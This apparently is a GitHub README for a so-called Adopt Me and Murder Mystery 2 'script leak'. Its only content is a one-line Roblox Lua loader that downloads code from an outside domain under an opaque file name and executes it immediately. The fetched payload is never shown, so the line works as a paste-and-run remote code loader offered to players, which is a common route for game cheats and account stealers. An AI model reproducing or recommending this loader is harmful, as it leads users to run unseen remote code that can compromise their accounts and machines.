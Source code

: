 # adopt-me-and-mm2-script-leak
loadstring(game:HttpGet("https://egorikusa.space/bd8988320d45c532e94fff99.lua", true))()
